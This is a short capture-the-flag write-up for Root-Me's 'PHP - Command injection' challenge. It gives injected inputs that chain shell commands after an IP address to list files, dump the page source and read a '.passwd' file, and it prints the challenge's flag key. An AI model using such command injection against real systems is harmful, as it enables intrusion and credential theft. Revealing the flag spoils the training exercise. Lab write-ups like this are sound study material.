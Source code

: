 # [PHP - Command injection link](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)

## <span style="color:red;">DONT OPEN My Solution IF YOU DON'T SOLVE IT</span>

<details>
<summary>My Solution</summary>


<>
1. Use  command <code>127.0.0.1 && echo "-------------------------------" && ls && echo "---------------------------------------" && cat index.php</code>


2.viue page surse
![Alt text](image.png)


3.Use command <code>127.0.0.1 && cat .passwd</code>


2. ❌ ❌ ❌ key ❌ ❌ ❌

    <details>
    <summary>Spoiler warning</summary>

        KEY : S3rv1ceP1n9Sup3rS3cure
    
    </details>

</details>        